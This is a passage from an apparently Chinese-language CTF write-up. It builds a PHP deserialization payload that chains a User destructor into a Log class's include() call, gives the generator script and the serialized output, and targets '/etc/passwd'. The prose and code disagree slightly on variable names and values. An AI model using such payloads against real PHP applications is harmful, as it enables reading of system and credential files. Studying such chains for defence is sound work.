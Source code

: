 ```php
    }

    function __destruct() {
      //echo "bye\n";
      $this->wel->handler($this->name);
    }
  }

?>
```

### 反序列化payload构造

主要思路是通过`User`类中的`wei`变量实例化`Log`类以成功利用`include`函数实现文件包含漏洞；这里要记住：反序列化输出之后，要修改`User`类中的`$wei`变量类型为“受保护的”，并对序列化字符串做修改，将`$wei`类型也改回“受保护的”类型；并且空使用`$00`代替

```php
<?php

class Log
{
    private $type_log = '/etc/passwd';

    public function handler($val)
    {
        include($this->type_log);
        echo "LOG: " . $val;
    }
}


class User
{
    private $name;
    public $wel;

    function __destruct()
    {
        //echo "bye\n";
        $this->wel->handler($this->name);
    }
}

$user = new User();
$user->wel = new Log();
echo "\n";
echo serialize($user);
```

==输出==

```php
O:4:"User":2:{s:10:"%00User%00name;s:8:"flag.php";s:9:"%00User%00wel";O:3:"Log":1:{s:13:"%00Log%00type_log";s:11:"/etc/passwd";}}
```

